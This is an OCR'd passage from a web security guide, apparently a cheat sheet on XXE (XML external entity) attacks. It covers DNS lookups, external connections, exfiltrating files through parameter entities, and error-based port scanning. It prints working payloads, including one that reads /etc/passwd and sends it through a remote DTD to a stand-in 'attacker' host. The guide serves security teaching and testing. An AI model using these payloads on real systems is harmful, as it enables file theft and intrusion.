 server-side DNS lookups of arbitrary domain names.** This is one of the simplest forms of SSRF, but requires the attacker to analyze the DNS
traffic. Burp has a plugin that checks for this attack. 
```
     <!DOCTYPE m PUBLIC "-//B/A/EN" "http://checkforthisspecificdomain.example.com">
```
 
##### External Connection 
Whenever there is an XXE and you cannot retrieve a file, you can test if you would be able to establish remote connections:
 
```
    <?xml version="1.0" encoding="UTF-8"?>     <!DOCTYPE root [
     <!ENTITY % xxe SYSTEM "http://attacker/evil.dtd">      %xxe;
    ]> 
```
 ##### File Retrieval with Parameter Entities
 Parameter entities allows for the retrieval of content using URL
references. Consider the following malicious XML document: 
```
     <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [      <!ENTITY % file SYSTEM "file:///etc/passwd">
     <!ENTITY % dtd SYSTEM "http://attacker/evil.dtd">      %dtd;
    ]>     <root>&send;</root>
```
 
Here the [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) defines two external parameter entities: `file` loads a local file, and `dtd`
which loads a remote [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp). The remote
[DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) should contain something like this:
 
```
    <?xml version="1.0" encoding="UTF-8"?>     <!ENTITY % all "<!ENTITY send SYSTEM 'http://example.com/?%file;'>">
    %all; 
```
 The second [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) causes
the system to send the contents of the `file` back to the attacker\'s server as a parameter of the URL.
 ##### Port Scanning
 The amount and type of information generated by port scanning will
depend on the type of implementation. Responses can be classified as follows, ranking from easy to complex:
 **1) Complete Disclosure**: This is the simplest and most unusual
scenario, with complete disclosure you can clearly see what\'s going on by receiving the complete responses from the server being queried. You
have an exact representation of what happened when connecting to the remote host.
 **2) Error-based**: If you are unable to see the response from the
remote server, you may be able to use the information generated by the error response. Consider a web service leaking details on what went
wrong in the SOAP Fault element when trying to establish a connection: 
```
     java.io.IOException: Server returned HTTP response code: 401 for URL: http://192.168.1.1:80
     at sun.net.www.protocol.http.HttpURLConnection.getInputStream(HttpURLConnection.java:1459)      at com.sun.org.apache.xerces.internal.impl.XMLEntityManager.setupCurrentEntity(XMLEntityManager.java:674)
```
 
